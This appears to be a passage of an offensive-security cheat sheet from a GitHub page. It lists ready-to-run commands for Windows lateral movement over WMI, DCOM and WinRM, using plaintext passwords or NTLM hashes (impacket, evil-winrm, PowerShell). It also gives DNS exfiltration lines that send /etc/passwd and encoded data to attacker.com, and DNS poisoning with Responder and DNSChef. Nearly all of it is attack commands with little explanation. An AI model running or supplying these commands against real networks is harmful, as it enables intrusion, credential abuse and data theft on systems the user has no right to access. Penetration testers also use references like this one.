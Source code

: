 ### **🕷️ Advanced Lateral Movement**

#### **WMI Lateral Movement**
```bash
# Linux - impacket
wmiexec.py domain.com/user:pass@target
wmiexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
wmic /node:target /user:domain\user /password:pass process call create "cmd.exe /c <command>"
Invoke-WmiMethod -ComputerName target -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c <command>"
```

#### **DCOM Lateral Movement**
```bash
# Linux
dcomexec.py domain.com/user:pass@target
dcomexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "target"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c <command>", "7")
```

#### **WinRM Lateral Movement**
```bash
# Linux
evil-winrm -i target -u user -p password
evil-winrm -i target -u user -H NTLM_HASH

# Windows
Enter-PSSession -ComputerName target -Credential $cred
Invoke-Command -ComputerName target -Credential $cred -ScriptBlock {<command>}
```

### **🌐 DNS Attacks**

#### **DNS Exfiltration**
```bash
# DNSExfiltrator
python3 dnsexfiltrator.py -d domain.com -f /etc/passwd

# Windows
nslookup $(echo "data" | base64).attacker.com
```

#### **DNS Poisoning**
```bash
# Responder DNS spoofing
responder -I eth0 -A

# DNSChef
dnschef --fakeip=attacker_ip --fakedomains=*.domain.com
```

---